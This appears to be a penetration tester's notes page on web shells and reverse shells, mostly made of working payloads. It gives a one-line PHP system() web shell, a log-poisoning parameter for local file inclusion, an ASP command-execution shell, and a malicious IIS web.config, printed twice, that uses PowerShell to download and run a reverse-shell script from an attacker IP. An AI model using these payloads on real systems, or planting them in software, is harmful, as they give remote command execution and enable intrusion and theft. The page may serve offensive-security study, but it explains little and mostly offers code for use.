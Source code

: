 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - SpecificShells
---
```



# PHP Web Shell

[GitHub - epinna/weevely3: Weaponized web shell](https://github.com/epinna/weevely3)
## Example shells:

 `<?php system($_GET[‘commandInjection’]); ?>`
`_/var/log/vsftpd.log&commandInjection=ifconfig
## ZIP Wrapper LFI

[[File include (LFI) (RFI)#Unzip File]]


## Generic Reverse Shells

```
' -- create the COM objects that we will be using -- ' Set oScript = Server.CreateObject("WSCRIPT.SHELL") Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK") Set oFileSys = Server.CreateObject("Scripting.FileSystemObject") ' -- check for a command that we have posted -- ' szCMD = Request.Form(".CMD") If (szCMD <> "") Then ' -- Use a poor man's pipe ... a temp file -- ' szTempFile = "C:\" & oFileSys.GetTempName( ) Call oScript.Run ("cmd.exe /c " & szCMD & " > " & szTempFile, 0, True) Set oFile = oFileSys.OpenTextFile (szTempFile, 1, False, 0) End If

```

```
<?xml version="1.0" encoding="UTF-8"?> <configuration> <system.webServer> <handlers accessPolicy="Read, Script, Write"> <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" /> </handlers> <security> <requestFiltering> <fileExtensions> <remove fileExtension=".config" /> </fileExtensions> <hiddenSegments> <remove segment="web.config" /> </hiddenSegments> </requestFiltering> </security> </system.webServer> </configuration> <%@ Language=VBScript %> <% call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')") %>
```

## Windows Nishang Shell

See [[3. Exploitation/Obtaining Remote Shells/Specific Shells/Windows/Windows#PowerShell]]

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```
